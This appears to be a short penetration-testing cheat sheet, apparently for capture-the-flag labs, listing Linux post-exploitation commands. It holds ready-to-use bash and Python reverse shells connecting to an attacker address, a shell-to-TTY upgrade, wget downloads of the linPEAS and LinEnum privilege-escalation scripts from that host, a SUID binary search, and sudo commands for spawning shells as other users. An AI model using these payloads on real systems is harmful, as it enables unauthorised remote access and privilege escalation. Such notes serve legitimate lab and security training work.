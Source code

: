 ```sudo -l```

```whoami```

```groups```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


# Searching through files

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## Search for strings in file (or filesystem)

```
sudo strings /path/to/file
```


# LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
wget http://10.10.14.6/linpeas.sh
```
```
./linpeas.sh
```

# LinEnum

```
wget http://10.10.14.6/LinEnum.sh
```

# Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


## Run command as specific user
```
sudo -u USER command
```

## Start shell as specific user
```
sudo -u USER bash -i
```

